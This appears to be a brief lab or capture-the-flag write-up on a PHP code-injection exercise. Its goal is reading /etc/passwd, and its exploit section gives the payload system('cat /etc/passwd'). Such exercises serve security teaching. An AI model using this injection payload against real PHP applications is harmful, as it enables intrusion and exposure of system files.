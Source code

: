 # Code Injection PHP App 01

### try to read the `/etc/passwd` file





## exploit

```
system('cat /etc/passwd')
```
